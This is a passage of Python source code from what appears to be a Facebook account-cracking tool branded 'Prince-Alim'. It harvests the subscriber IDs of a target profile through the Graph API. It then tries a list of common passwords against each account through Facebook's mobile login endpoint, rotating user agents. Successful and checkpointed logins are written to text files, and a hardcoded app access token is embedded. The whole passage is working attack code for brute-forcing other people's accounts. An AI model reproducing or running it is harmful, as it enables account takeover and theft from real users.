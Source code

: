 		pass4 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass5 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass6 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass7 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		idt = raw_input("\x1b[1;92m Input id:\x1b[1;93m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
			q = json.loads(r.text)
			os.system('clear')
			print(logo)
			print(" Cloning from:\x1b[1;92m "+q["name"])
		except KeyError:
			print("\tInvalid id link")
			print("")
			raw_input(" Press enter to back")
			choice()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999")
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
	elif select =="0":
	    menu()
	else:
		print("")
		print("\tSelect valid option\033[0;97m")
		print("")
		choice_select()
	print("\x1b[1;93m  Total IDs :\x1b[1;92m "+str(len(id)))
	print("\x1b[1;93m  The Process has been started âœ“")
	print("\033[1;93m  Plzz wait to Crack idzz")
	print("\x1b[1;93m  Press ctrl + z to stop")
	print(47*"-")
	print("")
	def main(arg):
		user=arg
		uid,name=user.split("|")
		ranagent = random.choice(agents)
		session = requests.Session()
		session.headers.update({'User-Agent': ranagent})
		try:
			data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass1+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
			q = json.loads(data)
			if "access_token" in q:
				print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass1+"\033[0;97m")
				ok = open("Prince-Alimok.txt", "a")
				ok.write(uid+"|"+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in q["error_msg"]:
					print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass1+"\033[0;97m")
					cp = open("Prince-Alimcp.txt", "a")
					cp.write(uid+"|"+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)